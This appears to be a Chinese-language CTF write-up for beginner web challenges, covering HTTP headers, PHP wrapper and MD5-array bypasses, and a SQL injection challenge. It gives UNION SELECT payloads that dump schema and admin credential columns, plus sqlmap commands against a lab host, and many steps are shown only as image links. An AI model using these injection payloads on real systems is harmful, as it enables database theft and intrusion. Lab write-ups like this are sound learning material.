 # WEEK1
## HTTP
![[Pasted image 20221012133653.png]]
![[Pasted image 20221012133711.png]]
![[Pasted image 20221012133805.png]]
![[Pasted image 20221012133822.png]]
![[Pasted image 20221012133905.png]]
![[Pasted image 20221012133932.png]]
## Head?Header!
![[Pasted image 20221012134149.png]]
![[Pasted image 20221012134158.png]]
![[Pasted image 20221012134206.png]]
![[Pasted image 20221012134212.png]]
![[Pasted image 20221012134223.png]]
![[Pasted image 20221012134239.png]]
![[Pasted image 20221012134249.png]]
## 我真的会谢
![[Pasted image 20221012134335.png]]
![[Pasted image 20221012135428.png]]
![[test.py]]

![[util.py]]
## NOT PHP
![[Pasted image 20221012135609.png]]
### file_get_contents()
"获取文件内容"
用到php伪协议
>https://blog.csdn.net/qq_45290991/article/details/113852174

`?data=data://text/plain;base64,V2VsY29tZSB0byBDVEY=`

### MD5校验绕过
>https://www.cnblogs.com/ainsliaea/p/15126218.html

`key1[]=1&key2[]=2`

### is_numeric()
判断是否为数字（有字母就不是数字）

### intval()
转换为整数

`2077abc`

### 井号 行注释
换行绕过（%0a）
![[Pasted image 20221012141857.png]]

## Word-For-You
![[Pasted image 20221014083400.png]]
测试命令是否能执行
![[Pasted image 20221014083814.png]]
1=2报错说明可以执行语句
![[Pasted image 20221014084019.png]]
测试union select
![[Pasted image 20221014084059.png]]
获取库名
![[Pasted image 20221014084143.png]]
获取表名
![[Pasted image 20221014084753.png]]
```sql
union select database(),TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database()#
```
>[! NOTE]+ 注意语法
>from 要写在所有 select 的位置的后面
>
>大小写关系不大

获取列名
```sql
union select column_name,NULL FROM information_schema.columns WHERE table_name='wfy_admin'#
```
![[Pasted image 20221014092923.png]]
获取数据
```sql
union select GROUP_CONCAT(Id,username,password,cookie),NULL FROM wfy_admin#
```
![[Pasted image 20221014093036.png]]

>[! DANGER]+ 注意
>没有报错，说明本来就没有内容

换一个表
```sql
union select column_name,NULL FROM information_schema.columns WHERE table_name='wfy_comments'#
```
![[Pasted image 20221014093310.png]]

获取数据
```sql
union select GROUP_CONCAT(id,text,user,name,display),NULL FROM wfy_comments#
```
![[Pasted image 20221014093424.png]]
## Word-For-You（使用sqlmap）
```bash
sqlmap -u "http://8b004110-6e60-48c4-b62f-56f970da8a1f.node4.buuoj.cn:81/comments.php" --data="name=1" --random-agent
```
或
```bash
sqlmap -r "post.txt"
```
